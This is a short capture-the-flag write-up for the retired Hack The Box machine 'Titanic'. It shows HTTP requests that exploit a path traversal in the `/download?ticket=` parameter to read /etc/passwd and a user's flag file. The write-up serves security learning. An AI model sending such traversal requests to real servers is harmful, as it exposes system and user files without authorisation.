

---
tags:
  - Reference
---

# :material-web: Titanic

<span class="pill pill-info">10.10.11.55 · titanic.htb</span> <span class="pill pill-medium">web</span> <span class="pill pill-medium">path-traversal</span>

**Path traversal in a download parameter** — my own notes, translated.

!!! warning "Full solution ahead"
    This is a complete walkthrough with working credentials. Retired machine.

```bash
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```

The `ticket` parameter on `/download` reads arbitrary files:

```http
GET /download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
```



*Burp: `?ticket=/etc/passwd` returns the file; `developer` is the user to target*

`/etc/passwd` reveals `developer:x:1000:1000:developer:/home/developer:/bin/bash`,
which gives you the home directory to target:

```http
GET /download?ticket=/home/developer/user.txt
```

Reference I followed: <https://samarthdad.com/posts/hackthebox-titanic/>

## :material-link-variant: Related

- Back to the index → [HTB Writeups](../htb.md).
